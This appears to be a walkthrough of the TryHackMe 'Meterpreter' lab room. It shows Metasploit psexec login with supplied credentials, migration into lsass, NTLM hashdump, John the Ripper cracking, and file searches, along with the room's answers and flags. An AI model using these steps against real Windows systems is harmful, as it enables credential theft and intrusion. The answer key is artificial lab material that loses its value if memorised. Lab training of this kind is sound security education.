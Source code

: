 ```yaml
---
msf:
  - "Metasploit: Meterpreter\r"
Date: 13 April 2024
Platform: metasploit
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.30.141
---
```

---
### description: 
Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

[link of the room](https://tryhackme.com/room/meterpreter)
## Task 5 Post-Exploitation Challenge
```
msfconsole
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 10.10.30.141
msf > set SMBUSER ballen
msf > set SMBPASS Password1
msf > set LHOST 10.8.45.125
msf > run
```
![](img/psexec.png)

#### What is the computer name?

```bash
sysinfo
```
![](img/sysinfo.png)
`ACME-TEST`
#### What is the target domain?
FLASH
#### What is the name of the share likely created by the user?

```bash
meterpreter > shell
net share
exit
```

![](img/speedster.png)
`speedster`
#### What is the NTLM hash of the jchambers user?

```bash
ps lsass.exe
migrate 756
hashdump
```

![](img/jchambers.png)
`69596c7aa1e8daee17f8e78870e25a5c`
#### What is the cleartext password of the jchambers user?

```bash
echo 'jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::' > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](img/echo.png)
![](img/john.png)
`Trustno1`
#### Where is the "secrets.txt" file located?

```bash
search -d C:\\ -f secrets.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```
![](img/sec.png)
`C:\Program Files (x86)\Windows Multimedia Platform\`
#### What is the Twitter password revealed in the "secrets.txt" file?
![](img/secret.png)
`KDSvbsw3849!`
#### Where is the "realsecret.txt" file located?
```bash
search -d C:\\ -f realsecret.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```
![](img/real.png)
`C:\inetpub\wwwroot\`
#### What is the real secret?
![](img/realsecret.png)
`The Flash is the fastest man alive`

![Room2 complete](img/room2.png)
